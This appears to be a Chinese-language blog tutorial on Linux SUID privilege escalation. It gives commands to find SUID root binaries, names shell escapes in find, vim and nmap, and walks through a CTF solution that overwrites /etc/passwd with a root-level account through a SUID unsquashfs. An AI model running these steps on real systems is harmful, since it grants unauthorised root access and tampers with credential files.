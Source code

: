 ```yaml
---
layout: post
title: Linux 利用 SUID权限 提权例子
comments: false
description: ""
keywords: "Vulnerability"
---
```


SUID【Set User ID】作用就是：让本来没有相应权限的用户运行这个程序时，可以访问没有权限访问的资源。

即：具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

这时问题就容易出现了，如果某些现有的二进制文件和实用程序具有SUID权限的话，就可以在执行时将权限提升为文件所有者的权限【多root】。

## 寻找方法

可以粗略寻找拥有SUID权限的程序文件，再看所有者是否为高权限【e.g. root】用户；

```
find / -perm -u=s -type f 2>/dev/null
```

当然也可以直接寻找即为root用户，也拥有SUID权限的程序；

```
find / -user root -perm -4000 -print 2>/dev/null
```

## 利用方式

其一【实际渗透测试】：

采用程序自身的命令执行参数，如：find命令的-exec功能、vim命令的:shell功能、老版nmap交互界面的!sh功能...

其二【CTF】：

依靠程序自身的功能替换passwd文件，如：unsquashfs解压功能【2018赛博地球杯-SDN本地提权】；

## 2018赛博地球杯-SDN本地提权

由于/etc/passwd非root也可读，复制并保存到本地名同为passwd，在最后添加新用户信息，hash为本地生成，UID、GID均为root，家目录为/root，使用bash；

```
Go0s:$6$ywufMHi0$NhYwAQ4cX38MyvBAGpJd5/uBGcA4oWU6asdasvR/Z.hd/GltM1VXXJsadasdsdfHZTiYMj8OqqlicKH6OBQMM1:0:0::/root:/bin/bash
```

生成exp，在本地使用 `mksquashfs` 生成squashfs格式文件；

```
文件格式：
test@PC:~$ tree squashfs-root 
squashfs-root
└── etc
    └── passwd

test@PC:~$ mksquashfs squashfs-root/ exp
Parallel mksquashfs: Using 4 processors
Creating 4.0 filesystem on exp, block size 131072.
[===================================================================|] 2/2 100%

Exportable Squashfs 4.0 filesystem, gzip compressed, data block size 131072
	compressed data, compressed metadata, compressed fragments, compressed xattrs
	duplicates are removed
Filesystem size 2.65 Kbytes (0.00 Mbytes)
	20.77% of uncompressed filesystem size (12.78 Kbytes)
Inode table size 73 bytes (0.07 Kbytes)
	56.15% of uncompressed inode table size (130 bytes)
Directory table size 54 bytes (0.05 Kbytes)
	79.41% of uncompressed directory table size (68 bytes)
Number of duplicate files found 0
Number of inodes 4
Number of files 2
Number of fragments 1
Number of symbolic links  0
Number of device nodes 0
Number of fifo nodes 0
Number of socket nodes 0
Number of directories 2
Number of ids (unique uids + gids) 1
Number of uids 1
	test (1000)
Number of gids 1
	test (1000)
```

利用，直接使用拥有SUID权限的`unsquashfs`解压squashfs格式文件到根目录，即可覆盖掉/etc/passwd；

```
l4ozu1@L4oZu1PC:~/Desktop$ unsquashfs -d / -f exp
Parallel unsquashfs: Using 4 processors
2 inodes (2 blocks) to write

[===================================================================|] 2/2 100%

created 2 files
created 2 directories
created 0 symlinks
created 0 devices
created 0 fifos
```

验证，提权成功：

```
l4ozu1@L4oZu1PC:~/Desktop$ su Go0s
密码： 
root@L4oZu1PC:/home/l4ozu1/Desktop# id
uid=0(root) gid=0(root) 组=0(root)
```